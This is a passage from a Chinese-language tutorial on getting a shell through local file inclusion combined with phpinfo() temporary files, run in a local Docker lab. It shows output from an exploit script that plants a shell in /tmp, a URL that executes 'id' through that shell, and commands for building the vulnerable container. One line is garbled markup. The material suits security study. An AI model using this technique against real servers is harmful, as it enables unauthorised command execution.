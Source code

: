 * * *

*   get shell
    
    ```
    $ python lfi_phpinfo.py 127.0.0.1
    
    LFI with phpinfo()
    ==============================
    INFO:__main__:Getting initial offset ...
    INFO:__main__:found [tmp_name] at 67801
    INFO:__main__:
    Got it! Shell created in /tmp/g
    INFO:__main__:Wowo! \m/
    INFO:__main__:Shutting down...
    
    ```
*   firefox 访问
    
    ```
    http://127.0.0.1/LFI_phpinfo/lfi.php?load=/tmp/gc&f=id
    
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    
    ```

说明getshell成功，之后就可以自由发挥了～～

0x05 使用 docker 构建环境
===================

docker的基本用法，这里就不阐述了，可自行google。这里提供了两种构建镜像源的方式，使用github[lfi_phpinfo](https://github.com/hxer/vulnapp/tree/master/lfi_phpinfo)中Dockerfile自行构建，或使用我已经构建好的镜像[janes/lfi_phpinfo](https://hub.docker.com/r/janes/lfi_phpinfo/)

*   镜像源

-- [php 1="官方源" 2="2="2="2="2="language=":5.6-apache"""""\"][/php][/php](http://gynvael.coldwind.pl/download.php?f=PHP_LFI_rfc1867_temporary_files.pdf)[5](https://hub.docker.com/_/php/)

或

--[janes/lfi_phpinfo](https://hub.docker.com/r/janes/lfi_phpinfo/)

*   构建环境运行测试

获取 github[lfi_phpinfo](https://github.com/hxer/vulnapp/tree/master/lfi_phpinfo)的源码，切换到web目录下，开始构建环境进行测试。这里提供三种方式运行

1.  方式1 使用php官方源运行测试
    
    ```
    docker run --rm -v code/:/var/www/html -p 80:80 php:5.6-apache
    
    ```
2.  方式2 使用构建好的镜像[janes/lfi_phpinfo](https://hub.docker.com/r/janes/lfi_phpinfo/)运行测试
    
    ```
    docker pull "janes/lfi_phpinfo"
    docker run --rm -p "80:80" janes/lfi_phpinfo
    